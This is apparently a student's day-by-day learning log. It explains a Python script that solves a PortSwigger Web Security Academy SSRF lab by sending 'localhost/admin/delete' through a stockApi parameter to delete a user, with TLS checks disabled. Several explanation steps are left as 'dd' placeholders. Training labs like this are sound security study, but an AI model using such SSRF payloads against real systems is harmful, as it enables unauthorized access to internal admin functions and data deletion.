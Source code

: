 "Sometimes in life, you have to make a selfish decision and do what's best for you." - Saquon Barkley

# Day-14 Summary:

### Things Done Today:

- [X] Wreath Network:

- [X] SSRF Lab #1: [Web-Security Academy](https://portswigger.net/web-security/) -- PortSwigger; [Rana Khalil's Course](https://ranakhalil.teachable.com/);
   - Done with lab#1 today: It was pretty easy and understood the python code [Check out the full code in good format here], which I'm gonna tryna explain you people here below. 

1. Importing all the requests. Also disabling the warnings incase of not having the valid certificate.

```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
2. This thing is total optional, but inorder to check where you went wrong if the script doesn't work, this is real helpful thing to add onto the script.

```
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```
3. dd

```
def delete_user(url):
    delete_user_url_ssrf_payload = 'http://localhost/admin/delete?username=carlos'
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)
```
4. dd

```
    # Check if user was deleted
    admin_ssrf_payload = 'http://localhost/admin'
    params2 = {'stockApi': admin_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was unsuccessful.")
```
5. dd

```
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)
```
6. dd

```
if __name__ == "__main__":
    main()
```
